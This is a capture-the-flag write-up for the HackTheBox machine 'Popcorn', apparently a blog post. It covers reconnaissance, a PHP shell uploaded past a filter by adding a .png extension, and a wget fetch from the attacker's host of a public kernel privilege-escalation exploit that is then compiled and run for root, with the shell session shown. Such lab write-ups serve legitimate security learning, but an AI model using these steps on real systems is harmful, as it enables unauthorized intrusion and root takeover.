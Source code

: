 ```yaml
---
layout: post
title:  "HackTheBox :: Popcorn"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```


# Nmap scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# Dirsearch results
```
[06:17:51] 200 -  177B  - /
[06:17:52] 200 -  177B  - /index
[06:18:00] 200 -   48KB - /test
[06:18:28] 301 -  310B  - /torrent  ->  http://10.10.10.6/torrent/
[06:19:31] 301 -  309B  - /rename  ->  http://10.10.10.6/rename/
```

# Webapp things
'/torrent' from the directory bruteforce looks interesting, it directs to a torrent hosting site. There is capability to upload files but we cant due to being unauthenticated. Luckily theres also a signup form so we can be authenticated.
Attempting a straight file upload with a php shell and typical bypasses didnt end up working out. Since the name mentions torrents, i tried a torrent file such as the default kali torrent. This file works just fine. After uploading theres an option to upload an image along with the file. This time appending .png to our php shell allows us to get a connection once we navigate to '/torrent/uploads'


# Getting root
Digging around searchsploit and exploitdb for a kernel exploit was an idea because the kernel is dated as 2009. 
```
“Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local Privilege Escalation”
``` 
Use wget on the box to get the file, compile and execute to gain root.
```
www-data@popcorn:/dev/shm$ wget http://10.10.14.6:8000/15704.c
wget http://10.10.14.6:8000/15704.c
--2018-12-04 13:35:08--  http://10.10.14.6:8000/15704.c
Connecting to 10.10.14.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9487 (9.3K) [text/plain]
Saving to: `15704.c'

100%[======================================>] 9,487       36.7K/s   in 0.3s    

2018-12-04 13:35:08 (36.7 KB/s) - `15704.c' saved [9487/9487]

www-data@popcorn:/dev/shm$ gcc 15704.c -o fml 
gcc 15704.c -o fml
www-data@popcorn:/dev/shm$ chmod +x fml
chmod +x fml
www-data@popcorn:/dev/shm$ file fml
file fml
fml: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
www-data@popcorn:/dev/shm$ ./fml
./fml
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf840a280
 [+] Resolved econet_ops to 0xf840a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Triggering payload...
[*] Got root!
# cat /root/root.txt
cat /root/root.txt
<redacted>
# 
```

aaaaand done.
